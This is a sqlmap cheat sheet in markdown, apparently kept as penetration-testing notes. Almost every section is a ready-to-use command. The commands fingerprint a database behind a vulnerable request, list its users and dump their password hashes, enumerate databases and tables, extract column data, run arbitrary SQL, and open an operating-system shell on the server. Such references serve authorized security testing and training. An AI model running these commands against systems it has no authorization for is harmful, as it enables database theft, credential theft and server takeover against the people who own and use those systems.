 # SQLMAP

## Test URL and POST data and return database banner (if possible)

```shell
./sqlmap.py --url="<url>" --data="<post-data>" --banner
```

## Parse request data and test | request data can be obtained with burp

```shell
./sqlmap.py -r <request-file> <options>
```

## Fingerprint | much more information than banner

```shell
./sqlmap.py -r <request-file> --fingerprint
```

## Get database username, name, and hostname

```shell
./sqlmap.py -r <request-file> --current-user --current-db --hostname
```

## Check if user is a database admin

```shell
./sqlmap.py -r <request-file> --is-dba
```

## Get database users and password hashes

```shell
./sqlmap.py -r <request-file> --users --passwords
```

## Enumerate databases

```shell
./sqlmap.py -r <request-file> --dbs
```

## List tables for one database

```shell
./sqlmap.py -r <request-file> -D <db-name> --tables
```

## Other database commands

```shell
./sqlmap.py -r <request-file> -D <db-name> --columns
					   --schema
					   --count
```

## Enumeration flags

```shell
./sqlmap.py -r <request-file> -D <db-name>
			      -T <tbl-name>
			      -C <col-name>
			      -U <user-name>
```

## Extract data

```shell
./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump
```

## Execute SQL Query

```shell
./sqlmap.py -r <request-file> --sql-query="<sql-query>"
```

## Append/Prepend SQL Queries

```shell
./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"
```

## Get backdoor access to sql server | can give shell access

```shell
./sqlmap.py -r <request-file> --os-shell
```
